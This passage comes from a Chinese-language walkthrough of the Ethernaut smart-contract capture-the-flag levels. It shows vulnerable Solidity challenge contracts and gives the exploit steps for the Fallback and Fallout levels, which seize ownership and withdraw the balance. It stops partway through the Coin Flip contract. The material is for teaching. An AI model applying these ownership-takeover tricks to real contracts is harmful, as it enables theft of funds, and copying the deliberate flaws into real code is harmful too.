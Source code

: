         function getContribution() public view returns (uint) {
            return contributions[msg.sender];
        }

        function withdraw() public onlyOwner {
            owner.transfer(address(this).balance);
        }

        receive() external payable {
            require(msg.value > 0 && contributions[msg.sender] > 0);
            owner = msg.sender;
        }
    }
    ```

目标是拿到这个合约的控制权，转出所有余额

主要逻辑是 contribute 函数会增加调用者的 contributions，当大于 1000 ether 的时候，会把所有权转给玩家。通过这个来获得控制权是不现实的

而另一个会发生所有权转换的函数是 receive 函数，这是一个 fallback 函数，会在合约账户接收以太币的时候触发，所以在这里只要向合约发出带有以太币的交易就可以触发这个函数转移所有权

而之前还需要先保证 contributions 大于 0，所以解法：
```js
> contract.contribute({value: 1})      // 使 contributions 大于 0 
> contract.sendTransaction({value: 1}) // 触发 fallback 转移所有权
> contract.withdraw()                  // 转出所有余额
```

---

## Fallout

要求得到合约的所有权

根据合约源码可以发现它的 constructor 的函数名为 Fal1out，并不是合约名 Fallout，有 l1 的差别

所以直接调用 contract.Fal1out() 就可以调用这个函数拿到合约所有权

---

## Coin Flip

??? question "题目合约"
    ```solidity
    pragma solidity ^0.6.0;

    import '@openzeppelin/contracts/math/SafeMath.sol';

    contract CoinFlip {

        using SafeMath for uint256;
        uint256 public consecutiveWins;
        uint256 lastHash;
        uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

        constructor() public {
            consecutiveWins = 0;
        }
